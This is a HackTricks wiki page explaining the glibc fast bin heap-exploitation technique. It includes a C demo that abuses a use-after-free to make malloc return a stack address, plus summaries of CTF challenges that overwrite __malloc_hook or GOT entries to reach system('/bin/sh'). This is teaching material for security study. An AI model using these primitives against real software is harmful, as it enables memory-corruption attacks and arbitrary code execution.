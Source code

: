 # Fast Bin Attack

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basic Information

For more information about what is a fast bin check this page:

{% content-ref url="bins-and-memory-allocations.md" %}
[bins-and-memory-allocations.md](bins-and-memory-allocations.md)
{% endcontent-ref %}

Because the fast bin is a singly linked list, there are much less protections than in other bins and just **modifying an address in a freed fast bin** chunk is enough to be able to **allocate later a chunk in any memory address**.

As summary:

{% code overflow="wrap" %}
```c
ptr0 = malloc(0x20);
ptr1 = malloc(0x20);

// Put them in fast bin (suppose tcache is full)
free(ptr0)
free(ptr1)

// Use-after-free
// Modify the address where the free chunk of ptr1 is pointing
*ptr1 = (unsigned long)((char *)&<address>);

ptr2 = malloc(0x20); // This will get ptr1
ptr3 = malloc(0x20); // This will get a chunk in the <address> which could be abuse to overwrite arbitrary content inside of it
```
{% endcode %}

You can find a full example in a very well explained code from [https://guyinatuxedo.github.io/28-fastbin\_attack/explanation\_fastbinAttack/index.html](https://guyinatuxedo.github.io/28-fastbin\_attack/explanation\_fastbinAttack/index.html):

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(void)
{
    puts("Today we will be discussing a fastbin attack.");
    puts("There are 10 fastbins, which act as linked lists (they're separated by size).");
    puts("When a chunk is freed within a certain size range, it is added to one of the fastbin linked lists.");
    puts("Then when a chunk is allocated of a similar size, it grabs chunks from the corresponding fastbin (if there are chunks in it).");
    puts("(think sizes 0x10-0x60 for fastbins, but that can change depending on some settings)");
    puts("\nThis attack will essentially attack the fastbin by using a bug to edit the linked list to point to a fake chunk we want to allocate.");
    puts("Pointers in this linked list are allocated when we allocate a chunk of the size that corresponds to the fastbin.");
    puts("So we will just allocate chunks from the fastbin after we edit a pointer to point to our fake chunk, to get malloc to return a pointer to our fake chunk.\n");
    puts("So the tl;dr objective of a fastbin attack is to allocate a chunk to a memory region of our choosing.\n");

    puts("Let's start, we will allocate three chunks of size 0x30\n");
    unsigned long *ptr0, *ptr1, *ptr2;

    ptr0 = malloc(0x30);
    ptr1 = malloc(0x30);
    ptr2 = malloc(0x30);

    printf("Chunk 0: %p\n", ptr0);
    printf("Chunk 1: %p\n", ptr1);
    printf("Chunk 2: %p\n\n", ptr2);


    printf("Next we will make an integer variable on the stack. Our goal will be to allocate a chunk to this variable (because why not).\n");

    int stackVar = 0x55;

    printf("Integer: %x\t @: %p\n\n", stackVar, &stackVar);

    printf("Proceeding that I'm going to write just some data to the three heap chunks\n");

    char *data0 = "00000000";
    char *data1 = "11111111";
    char *data2 = "22222222";

    memcpy(ptr0, data0, 0x8);
    memcpy(ptr1, data1, 0x8);
    memcpy(ptr2, data2, 0x8);

    printf("We can see the data that is held in these chunks. This data will get overwritten when they get added to the fastbin.\n");

    printf("Chunk 0: %s\n", (char *)ptr0);
    printf("Chunk 1: %s\n", (char *)ptr1);
    printf("Chunk 2: %s\n\n", (char *)ptr2);

    printf("Next we are going to free all three pointers. This will add all of them to the fastbin linked list. We can see that they hold pointers to chunks that will be allocated.\n");

    free(ptr0);
    free(ptr1);
    free(ptr2);

    printf("Chunk0 @ 0x%p\t contains: %lx\n", ptr0, *ptr0);
    printf("Chunk1 @ 0x%p\t contains: %lx\n", ptr1, *ptr1);
    printf("Chunk2 @ 0x%p\t contains: %lx\n\n", ptr2, *ptr2);

    printf("So we can see that the top two entries in the fastbin (the last two chunks we freed) contains pointers to the next chunk in the fastbin. The last chunk in there contains `0x0` as the next pointer to indicate the end of the linked list.\n\n");


    printf("Now we will edit a freed chunk (specifically the second chunk \"Chunk 1\"). We will be doing it with a use after free, since after we freed it we didn't get rid of the pointer.\n");
    printf("We will edit it so the next pointer points to the address of the stack integer variable we talked about earlier. This way when we allocate this chunk, it will put our fake chunk (which points to the stack integer) on top of the free list.\n\n");

    *ptr1 = (unsigned long)((char *)&stackVar);

    printf("We can see it's new value of Chunk1 @ %p\t hold: 0x%lx\n\n", ptr1, *ptr1);


    printf("Now we will allocate three new chunks. The first one will pretty much be a normal chunk. The second one is the chunk which the next pointer we overwrote with the pointer to the stack variable.\n");
    printf("When we allocate that chunk, our fake chunk will be at the top of the fastbin. Then we can just allocate one more chunk from that fastbin to get malloc to return a pointer to the stack variable.\n\n");

    unsigned long *ptr3, *ptr4, *ptr5;

    ptr3 = malloc(0x30);
    ptr4 = malloc(0x30);
    ptr5 = malloc(0x30);

    printf("Chunk 3: %p\n", ptr3);
    printf("Chunk 4: %p\n", ptr4);
    printf("Chunk 5: %p\t Contains: 0x%x\n", ptr5, (int)*ptr5);

    printf("\n\nJust like that, we executed a fastbin attack to allocate an address to a stack variable using malloc!\n");
}
```

{% hint style="danger" %}
If it's possible to overwrite the value of the global variable **`global_max_fast`** with a big number, this allows to generate fast bin chunks of bigger sizes, potentially allowing to perform fast bin attacks in scenarios where it wasn't possible previously. This situation useful in the context of [large bin attack](large-bin-attack.md) and [unsorted bin attack](unsorted-bin-attack.md)
{% endhint %}

## Examples

* **CTF** [**https://guyinatuxedo.github.io/28-fastbin\_attack/0ctf\_babyheap/index.html**](https://guyinatuxedo.github.io/28-fastbin\_attack/0ctf\_babyheap/index.html)**:**
  * It's possible to allocate chunks, free them, read their contents and fill them (with an overflow vulnerability).
    * **Consolidate chunk for infoleak**: The technique is basically to abuse the overflow to create a fake `prev_size` so one previous chunks is put inside a bigger one, so when allocating the bigger one containing another chunk, it's possible to print it's data an leak an address to libc (`main_arena+88`).
    * **Overwrite malloc hook**: For this, and abusing the previous overlapping situation, it was possible to have 2 chunks that were pointing to the same memory. Therefore, freeing them both (freeing another chunk in between to avoid protections) it was possible to have the same chunk in the fast bin 2 times. Then, it was possible to allocate it again, overwrite the address to the next chunk to point a bit before `__malloc_hook` (so it points to an integer that malloc thinks is a free size - another bypass), allocate it again and then allocate another chunk that will receive an address to malloc hooks.\
      Finally a **one gadget** was written in there.
* **CTF** [**https://guyinatuxedo.github.io/28-fastbin\_attack/csaw17\_auir/index.html**](https://guyinatuxedo.github.io/28-fastbin\_attack/csaw17\_auir/index.html)**:**
  * There is a heap overflow and use after free and double free because when a chunk is freed it's possible to reuse and re-free the pointers
    * **Libc info leak**: Just free some chunks and they will get a pointer to a part of the main arena location. As you can reuse freed pointers, just read this address.
    * **Fast bin attack**: All the pointers to the allocations are stored inside an array, so we can free a couple of fast bin chunks and in the last one overwrite the address to point a bit before this array of pointers. Then, allocate a couple of chunks with the same size and we will get first the legit one and then the fake one containing the array of pointers. We can now overwrite this allocation pointers to make the GOT address of `free` point to `system` and then write `"/bin/sh"` in chunk 1 to then call `free(chunk1)` which instead will execute `system("/bin/sh")`.
* **CTF** [**https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw19\_traveller/index.html**](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw19\_traveller/index.html)
  * Another example of abusing a one byte overflow to consolidate chunks in the unsorted bin and get a libc infoleak and then perform a fast bin attack to overwrite malloc hook with a one gadget address
* **CTF** [**https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw18\_alienVSsamurai/index.html**](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw18\_alienVSsamurai/index.html)
  * After an infoleak abusing the unsorted bin with a UAF to leak a libc address and a PIE address, the exploit of this CTF used a fast bin attack to allocate a chunk in a place where the pointers to controlled chunks were located so it was possible to overwrite certain pointers to write a one gadget in the GOT
  * You can find a Fast Bin attack abused through an unsorted bin attack:
    * Note that it's common before performing fast bin attacks to abuse the free-lists to leak libc/heap addresses (when needed).
* [**Robot Factory. BlackHat MEA CTF 2022**](https://7rocky.github.io/en/ctf/other/blackhat-ctf/robot-factory/)
  * We can only allocate chunks of size greater than `0x100`.
  * Overwrite `global_max_fast` using an Unsorted Bin attack (works 1/16 times due to ASLR, because we need to modify 12 bits, but we must modify 16 bits).
  * Fast Bin attack to modify the a global array of chunks. This gives an arbitrary read/write primitive, which allows to modify the GOT and set some function to point to `system`.

{% content-ref url="unsorted-bin-attack.md" %}
[unsorted-bin-attack.md](unsorted-bin-attack.md)
{% endcontent-ref %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
